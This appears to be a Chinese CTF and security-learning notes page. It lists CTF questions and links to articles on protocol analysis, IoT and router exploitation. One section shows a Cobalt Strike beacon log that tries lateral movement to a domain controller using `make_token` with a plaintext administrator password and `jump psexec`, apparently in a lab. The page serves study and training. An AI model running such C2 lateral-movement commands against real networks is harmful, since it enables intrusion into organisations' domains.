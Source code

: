 ## Q & A 提问
- FAQ.one
- Windows 本地怎样启环境 运行 angr，像 linux 启动 pwn 题目那样。。想迷宫爆破。 -- 想 win 下启动迷宫题目支持 nc/telnet 连接
- web JustUpload-v2  反序列化
- png_4 题目怎么做
- 你文件没了快打钱.zip -- smc 题目 ， 1.多次运行后 sp 错误。 2.怎样解码后 patch 出来。并且能运行。
- my_asm 怎样重写为asm并编译运行
- fmtarg ($ecx) 怎么写用 ecx
- Misc  run.zip 有密码的什么东西
- re: 鹏城锦标赛\工控-驱动\drive.zip
- pwn:  为什么patchelf后不能运行 _要买些东西吗
- pwn: pwntools怎样设置编码来输出中文 shctf call_call_would_backdoor。

### cobalt strike

- 都有权限浏览域控，为啥不能上线？

```sh
beacon> make_token tide1\administrator 1qaz@WSX
[*] Tasked beacon to create a token for tide1\administrator
beacon> jump psexec DC smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_ce) on DC via Service Control Manager (\\DC\ADMIN$\cc76326.exe)
[+] host called home, sent: 287632 bytes
[+] Impersonated T1-COMPUTER\test
[-] could not upload file: 53
[-] Could not open service control manager on DC: 1722
[-] Could not connect to pipe: 53
beacon> ls \\192.168.61.129\C$
[*] Tasked beacon to list files in \\192.168.61.129\C$
[+] host called home, sent: 37 bytes
[*] Listing: \\192.168.61.129\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/19/2023 06:28:52   $Recycle.Bin
          dir     06/19/2023 22:13:56   001.env.python-3.5.1-embed-amd64
```

## 综合利用

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## TODO

exec 更改标准输入到 test
exec 1>test
whoami
cat test

# Articles

## QQ 群

829089482 赛事群

## 协议分析/Protocol/IoT

- [MQTT 安全分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492664&idx=1&sn=e18c8c1e7209f6bacddb85397eab85c9)
- [协议分析 | Bluetooth 蓝牙协议栈技术初探](https://mp.weixin.qq.com/s/1pG6jnvt3aqPrz5Vl6FIqg)
- [基于树莓派的蓝牙协议抓包](https://mp.weixin.qq.com/s/ftaqzXcP23ATsCms1qfgHg)
- [协议分析 | 简析 ARP 欺骗](https://mp.weixin.qq.com/s/WyFPxxjSLF-diSUA-cTRZA)
- [协议分析 | 对一个 apk 协议的继续分析—libsgmain 反混淆与逆向](https://mp.weixin.qq.com/s/s06dvT056fqkENIYoEHZ3w)
- [协议分析 | 【app 渗透】破解 apk app 协议 测试接口等安全](https://mp.weixin.qq.com/s/jAzwLDjrIWhGSSYcA1PyYw)
- [TLS 1.2 协议解析流程学习（一）](https://mp.weixin.qq.com/s/DS3ZMVSlHvIV0wIDrrmHpg)
- [HLS 无损下载 B 站直播 | HLS 协议从入门到实践](https://www.bilibili.com/video/BV1yL411k7DK/)
- [USB | USB基础知识介绍](https://mp.weixin.qq.com/s/i9tJ1gMOyGiw-wwQQ-g_-w)
- [USB | 用协议分析仪直观理解USB传输的核心概念](https://mp.weixin.qq.com/s/FXM1Kf0KCaVPEJapLysj3Q)

---

- [IOT 设备常见配置文件加解密分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496354&idx=1&sn=79f02dbebafeb18dfc3e962c489a560f)
- [Openwrt 进程间通信-Ubus](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494791&idx=1&sn=58ce08c883a7056af29163db8fac83c4)
- [家用智能灯泡的控制功能安全测试](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247497263&idx=1&sn=7cd7b78de1b751434da43238495511c4)
- [CVE-2020-3331 思科 RV110W 路由器命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492240&idx=1&sn=8bf9052411b68a17438006e846123cad)
- [EMUX 仿真 RV130 的栈溢出整型利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495867&idx=1&sn=4fd1f76459a06039734f667417b5090f)
- [基于树莓派实现 IOT 流量抓取](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492289&idx=1&sn=900759780e235368e5ec1ff54f6ac800)
- [固件符号表恢复](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491846&idx=1&sn=b04846dbd9d5a72601f2469674f3c7d9)

## 网络安全/项目/毕业设计

[科普大作：等保、分保、关保、密评（附下载）](https://mp.weixin.qq.com/s/B6itiRBUkm8dSgX9VGBQgw)
[实验室 2023 届 本科优秀毕业设计展示一——操作系统实践、代码保护](https://mp.weixin.qq.com/s/C_Ias9xu02c1MpQo0CSzRQ)
[实验室 2023 届 本科优秀毕业设计展示二——网络安全](https://mp.weixin.qq.com/s/IIMm-h6Fxota7XfN_07OJg)
[实验室 2023 届 本科优秀毕业设计展示三——安全工具](https://mp.weixin.qq.com/s/UM-gCy9MIw9PQMN7X3ofyg)
[实验室 2023 届 本科优秀毕业设计展示四——应用安全](https://mp.weixin.qq.com/s/-qTDBayECI8i11n-W1GEBg)
[获奖！立项！结题！](https://mp.weixin.qq.com/s/Q6n8JZ1VGdiAnEZNJZdDYw)


